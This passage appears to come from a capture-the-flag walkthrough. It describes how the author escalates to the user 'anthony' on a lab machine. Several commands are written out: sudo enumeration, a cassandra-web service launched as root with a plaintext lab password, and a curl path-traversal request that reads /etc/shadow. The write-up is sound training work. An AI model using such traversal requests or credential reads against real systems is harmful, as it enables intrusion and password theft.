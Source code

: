 We have 2 connections in the system, we still do not have user flag and anthony's shell. As far as my understanding goes, after getting Anthony we will easily get root level access, but I can be wrong. 
### Shell as Anthony: Anthony do you know, Cassie was useless

If we get stuck at a point, even in life, the best thing to do is take a step back and re-trace your roadmap, are you walking on the right path? What next step should you take to reach your goal? Is it feasible? Is it possible? Is it even there or are we being delusional? For us, here we need user flag, so it is simple, we need to *Hack anthony* because he is the only user left. 

**Commands (revShell):**
- `sudo -l`
- `sudo -u root /usr/local/bin/cassandra-web -B 0.0.0.0:9999 -u cassie -p SecondBiteTheApple330 &`
- `curl --path-as-is "http://localhost:9999/../../../../../../../../../etc/shadow`

![](Clue/21.png)
![](Clue/22.png)
